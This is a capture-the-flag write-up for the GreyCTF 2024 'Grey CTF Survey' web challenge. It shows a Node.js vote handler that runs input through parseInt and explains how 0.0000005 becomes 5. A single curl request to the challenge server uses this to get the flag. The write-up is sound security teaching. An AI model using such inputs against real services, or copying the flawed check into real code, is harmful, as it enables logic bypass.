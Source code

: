 ```yaml
---
title: Grey CTF Survey
author: yufong
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 18:09
tags: 
  - greyctf-2024
  - js/parseInt
info:
  description: "Improper use of `parseInt` leads to unexpected results"
  difficulty: 2
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/greyctf-survey"
img_path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments/
image:
  path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Grey%20CTF%20Survey/attachments/../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Challenge Description

{{page.info.description}}

## Source Code Analysis

```
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})
```
>Vulnerability Details:
>[Solving a Mystery Behavior of parseInt() in JavaScript](https://dmitripavlutin.com/parseint-mystery-javascript/)
>- User input, an integer is passed into `parseInt()`, causing an unexpected value.
>- When an integer is passed into `parseInt()` 
>	1. it is converted to a string then into an integer again, 
>	2. if a number gets too large/small, "[Scientific Notation](https://en.wikipedia.org/wiki/Scientific_notation)" is used
>	3. So `0.0000005` turns into `5e-7` (String) and then `5` (int)
{: .prompt-info}

```
String(0.5); // => '0.5'  

String(0.05); // => '0.05'  

String(0.005); // => '0.005'  

String(0.0005); // => '0.0005'  

String(0.00005); // => '0.00005'  

String(0.000005); // => '0.000005'  

String(0.0000005); // => '5e-7' => 5
```



## Solution

```
┌──(root💀kali)-[~/boxes/nusgreyhat/WEB/Grey CTF Survey]
└─$ curl -H "Content-Type: application/json" -d '{"vote":0.0000005}' http://challs.nusgreyhats.org:33334/vote
{"error":false,"msg":"grey{50m371m35_4_l177l3_6035_4_l0n6_w4y}"}   
```



